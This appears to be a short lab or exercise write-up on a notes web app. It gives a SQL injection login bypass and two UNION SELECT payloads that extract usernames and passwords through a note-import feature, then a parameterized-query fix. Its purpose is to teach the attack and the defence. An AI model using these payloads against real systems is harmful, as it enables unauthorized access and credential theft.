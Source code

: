 # General notes
We can log in with
```sql
' or 1=1;--
```

We can get admin credentials when importing notes in the following way.
```sql
0 union select id, username, (SELECT strftime('%Y-%m-%d %H:%M:%S', datetime('now'))), username, 100000 from users
order by id asc;
0 union select id, username, (SELECT strftime('%Y-%m-%d %H:%M:%S', datetime('now'))), password, 100000 from users
order by id asc;
```

We can secure against injection using prepared statements, e.g.
```python
c.execute("SELECT * FROM users WHERE username = ? AND password = ?;", [username, password])
```
